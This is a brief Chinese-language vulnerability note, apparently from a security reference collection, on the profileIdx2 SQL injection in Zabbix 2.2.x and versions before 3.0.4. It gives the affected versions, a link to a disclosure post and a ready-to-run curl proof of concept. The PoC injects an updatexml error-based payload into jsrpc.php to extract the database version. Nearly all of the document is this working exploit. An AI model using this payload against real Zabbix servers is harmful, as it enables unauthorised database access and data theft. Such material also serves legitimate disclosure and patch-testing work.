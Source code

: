 ## zabbix 2.2.X

### profileIdx2 注入

影响版本

* 2.2.X
* < 3.0.4

参考链接

* [Re: Zabbix 2.2.x, 3.0.x SQL Injection Vulnerability](http://seclists.org/fulldisclosure/2016/Aug/79)

Poc

```
# 请先修改 cookie
curl 'http://127.0.0.1/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471054088083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=updatexml(2,concat(0x7e,(version())),0)&updateProfile=true&screenitemid=&period=3600&stime=20170813040734&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1'
```

